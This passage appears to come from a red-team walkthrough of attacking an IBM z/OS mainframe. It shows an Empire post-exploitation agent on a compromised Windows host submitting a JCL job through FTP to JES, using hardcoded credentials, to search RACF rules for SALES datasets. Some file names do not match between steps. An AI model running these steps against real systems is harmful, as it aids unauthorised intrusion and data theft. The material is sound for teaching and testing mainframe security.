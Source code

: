 However, locating valuable data remains a challenge. Mainframes can store vast amounts of data, often running for decades, making it difficult to pinpoint specific folders. We need to focus on identifying access rules, which are fewer in number compared to the amount of data. This approach will help us find the data we need more effectively.

Access rules on z/OS are managed by security components such as RACF, TOPSecret, or ACF2. With RACF holding a significant market share, and the success of the LISTUSER command indicating that we are on a RACF system, we know that RACF manages our security rules. RACF uses three main access levels: READ, ALTER, and UPDATE. The ALTER privilege allows modification of both the content and the associated access rules, while UPDATE only permits changes to the content.

To locate rules related to SALES datasets within the RACF database, we use the following command:

```
SEARCH FILTER(*.SALES.**)
```

Note: to search the RACF database for defined rules covering SALES datasets, we can adapt our previous JOB script to include the SEARCH command:

```
//FTPSRV1 JOB
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
SEARCH FILTER(*.SALES.**)
/*
//SYSIN DD DUMMY
//SYSTSPRT DD DSN=FTPSRV.OUTPUT,
// DISP=(NEW,CATLG),
// SPACE=(TRK,1)
```

Then save the JCL script to a file, for example, "SEARCH.JOB".

To upload the JCL script to the server where you have FTP access:

```
(Empire: SalesFTP) > upload /root/SEARCH.JOB C:\Users\sysback\AppData\Local\SEARCH.JOB

```

Create the FTP script to submit the JOB:

```
// FTP script saved as ftp_search.txt
open 192.168.1.200
FTPSRV
PASS01
quote site file=jes
put C:\Users\sysback\AppData\Local\SEARCH_JOB.JCL
quit
```

Upload and run the FTP script:

```
(Empire: SalesFTP) > upload /root/ftp_jes.txt C:\Users\sysback\AppData\Local\ftp_jes.txt
(Empire: SalesFTP) > shell cd C:\Users\sysback\AppData\Local
(Empire: SalesFTP) > shell ftp -s:ftp_search.txt
```
